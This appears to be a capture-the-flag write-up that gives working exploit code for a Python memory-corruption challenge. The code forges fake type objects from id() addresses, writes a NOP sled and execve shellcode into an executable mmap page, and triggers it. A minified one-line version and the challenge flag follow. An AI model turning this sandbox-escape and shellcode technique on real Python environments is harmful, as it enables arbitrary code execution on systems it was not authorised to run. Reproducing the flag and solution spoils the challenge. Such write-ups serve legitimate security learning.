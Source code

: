 ```python
            2, id(type),
            0, id(b'') + 32,
            33, 1,
        ] + [page_ptr] * 32
    )

    obj = serialize(
        [
            2, id(obj_type) + 32,
            0, 1,
        ]
    )

    page[:8] = serialize([id(obj) + 32])

    path = b'/challenge/flag'
    path_ptr = serialize([id(path) + 32])

    # a tiny execve shellcode using `path_ptr` in rdi
    shellcode = b'\x48\x31\xC0\xB0\x3B\x48\xBF' + path_ptr + b'\x48\x31\xF6\x48\x31\xD2\x48\x31\xC9\x0F\x05'
    
    rwx_page = mmap.mmap(-1, 0x1000 * 8, prot = 7)
    rwx_page.write(b'\x90' * 0x1000 * 8)
    rwx_page[-len(shellcode):] = shellcode

    str(a)
```

The challenge limits input's length, so the actual solution is minified.

Example minified solution: 

```python
[0 if p.madvise(10)else(i('time').sleep(1)if i('os').fork()else exec(r"s=lambda x:b''.join(y.to_bytes(8,'little')for y in x);a=[0]*4096*25;t=s([2,id(type),0,id(b'')+32,33,1]+[id(a)-0x110940]*32);o=s([2,id(t)+32,0,1]);p[:8]=s([id(o)+32]);e=b'/challenge/flag';c=b'\x48\x31\xC0\xB0\x3B\x48\xBF'+s([id(e)+32])+b'\x48\x31\xF6\x48\x31\xD2\x48\x31\xC9\x0F\x05';w=i('mmap').mmap(-1,0x8000,prot=7);w.write(b'\x90'*0x8000);w[-len(c):]=c;str(a)"))for i in[__import__]for p in[i('mmap').mmap(-1,0x1000*16)]]
```

# Flag

```
Aero{RCE_1n_Pyth0n_1s_d4NG3r0uS_ev3Ry_t1m3}
```
